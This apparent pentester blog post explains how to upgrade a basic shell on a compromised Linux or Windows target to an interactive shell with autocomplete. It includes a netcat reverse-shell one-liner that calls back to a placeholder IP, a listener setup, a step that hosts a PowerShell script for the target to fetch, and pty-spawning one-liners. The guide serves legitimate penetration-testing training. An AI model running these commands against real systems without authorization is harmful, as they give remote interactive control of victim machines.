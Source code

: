 ```yaml
---
title: "Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters"
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
---
```


## Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify Installed Language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:

```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```

### Examples

Below are commands to help upgrade the basic TTY shell:

```bash
# Use Python 3 to spawn an upgraded shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Use Python 2 to spawn an upgraded shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Alternative approach with os.system
echo os.system('/bin/bash')

# Spawn an interactive shell with /bin/sh
/bin/sh -i

# Use Perl to execute a shell
perl -e 'exec "/bin/sh";'

# Use Ruby to execute a shell
ruby -e 'exec "/bin/sh"'
```

### If Python Isn't Installed, Use:

```shell
# Use the script command to spawn an upgraded shell
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Reverse Shell Example

```bash
# Simple reverse shell using Netcat
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.xxx.xxx 9001 >/tmp/f
```

### Steps to Get an Autocomplete Shell

1. After choosing one of the methods above to upgrade your TTY shell, suspend it using:

    ```bash
    ctrl-z
    ```

2. On the attacker's machine, run:

    ```bash
    stty raw -echo
    stty -a  # Verify current terminal settings
    ```

3. Bring the shell to the foreground:

    ```bash
    fg
    stty raw -echo; fg
    ```

4. On the victim's machine, configure the shell:

    ```bash
    stty rows $x columns $y  # Set remote shell to x number of rows & y columns
    export TERM=xterm-256color  # Allows you to clear console and have color output
    ```

5. Press `Enter` twice to reactivate the session.

Now you should have a shell with autocomplete, history, and better usability features.


To have autocomplete on a Windows machine, you can also use:

- <a href="https://github.com/antonioCoco/ConPtyShell" target="_blank">ConPtyShell</a>

## A simple guide how you could use it:

To upgrade to an advanced shell on a Windows target using PowerShell, you can leverage the ConPtyShell method. Below is an example workflow for hosting and running the script:

On Kali Linux (Attacker's Machine)
```bash
# Host the PowerShell script
python3 -m http.server 80  
# to host Invoke-ConPtyShell.ps1

# In another terminal on Kali
stty raw -echo; (stty size; cat) | nc -lvnp 9001
```

To have autocomplete on a Linux machine, you can also use:

- <a href="https://github.com/brightio/penelope" target="_blank">penelope</a>

```shell
# Clone the repo, go to the directory and use the command:
./penelope.py 5555 -i eth0

# For more guidance, go to the repo.
```

### Conclusion

Upgrading to a TTY shell with autocomplete makes working on target systems much easier for pentesters. It helps you type commands faster, find past commands quickly, and move around more efficiently. This saves time and reduces mistakes, making the job smoother and simpler. Whether you’re working on Linux or Windows, having an upgraded shell makes interacting with the system more comfortable and productive.
